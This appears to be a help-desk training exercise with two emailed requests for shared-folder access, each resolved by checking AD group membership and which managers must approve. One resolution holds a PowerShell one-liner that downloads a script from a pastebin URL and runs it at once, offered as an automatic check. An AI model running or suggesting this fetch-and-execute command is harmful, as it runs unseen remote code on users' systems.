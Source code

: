 #### Staff Member Needs Access

**Emailed Request:**

> My boss told me to get my colleague up to speed on what we do around here. I need her to have the same access as I do. What do we need to do?
> 
> Here's her info: Malena Dex Ricci (mdr00001).
> 
> Thanks,
> 
> Randall A. Royce
> <br />Randall.Royce@donotreply.unt.edu

**Resolution:**

The learner should first evaluate what AD groups Randall is a member of. Upon doing so, the learner will discover there are two AD groups. The requestor is not the manager of either group. Both managers will need to grant permission. Here are the groups and managers:

- CASlab-S-ENGL-FacStaff; Manager: Grace Wyatt (gcw00001)
- CASlab-S-TWL-FacStaff; Manager: Gwen Faulkner (gcf00001)

Only permission will be granted for the CASlab-S-TWL-FacStaff AD group. The user will be notified and told to take any concerns to the manager.

This can be evaluated automatically with this PowerShell script:

`$section = 'NSP1'; iwr 'https://pastebin.com/raw/tQ95Q7Xh' -UseB | iex`

#### Student Employee Needs Access

**Emailed Request:**

> Our new student employee needs to be able to see, not change, the files in our FacStaff folder. She will also need to be able to add files to our Incoming Faxes folder. Here are the specific details
> 
> - Trudy N. Cock (tnc00001)
> - S:\HIST\FacStaff
> - S:\HIST\Incoming Faxes
> 
> Thanks,
> 
> Gisella J. Falconer
> <br />Gisella.Falconer@donotreply.unt.edu

**Resolution:**

The learner should first evaluate what AD groups manage those folders. It turns out that Gisella is the manager of both AD groups. Here are the groups:

- CASlab-S-HIST-FacStaff
- CASlab-S-HIST-Incoming\_Faxes

The learner will add tnc00001 to both AD groups.
